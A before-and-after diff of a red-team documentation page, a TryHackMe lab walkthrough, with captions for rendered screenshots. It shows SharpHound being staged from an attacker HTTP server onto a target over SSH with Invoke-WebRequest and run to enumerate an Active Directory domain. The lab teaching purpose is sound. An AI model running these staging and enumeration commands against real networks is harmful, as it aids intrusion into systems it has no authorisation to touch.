

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/enum/bloodhound.md, in a window 1280 px wide and 1400 px high, scrolled down 605 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/enum/bloodhound.md
+++ b/source/docs/enum/bloodhound.md
@@ -7,7 +7,9 @@ import into the Bloodhound interface.
 On the attack machine:
 
     mkdir sharphound
+
     cd sharphound
+
     wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
     --2022-10-12 14:20:23--  https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
     ...
@@ -31,41 +33,22 @@ Now `ssh` into target machine using the credentials given:
 In the target machine terminal, switch to powershell:
 
     za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
-    Windows PowerShell
-    Copyright (C) Microsoft Corporation. All rights reserved.
 
 Choose a directory to work from (I used `Documents`, and download the
 `SharpHound-v1.1.0.zip` from the http server on the attack machine:
 
     PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip
-    PS C:\Users\kenneth.davies\Documents> dir
-
-    Mode                LastWriteTime         Length Name
-    ----                -------------         ------ ----
-    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip
 
 Extract:
 
     PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip
-    PS C:\Users\kenneth.davies\Documents> dir
-    Directory: C:\Users\kenneth.davies\Documents
-
-    Mode                LastWriteTime         Length Name
-    ----                -------------         ------ ----
-    d-----       10/12/2022   2:49 PM                SharpHound-v1.1.0
-    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip
 
 Enumerate:
 
     PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
 
     PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
-    2022-10-12T14:49:53.2159956+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
     ...
-    2121 name to SID mappings.
-     0 machine sid mappings.
-     2 sid to domain mappings.
-     0 global catalog mappings.
     2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!
 
 Check results:
```
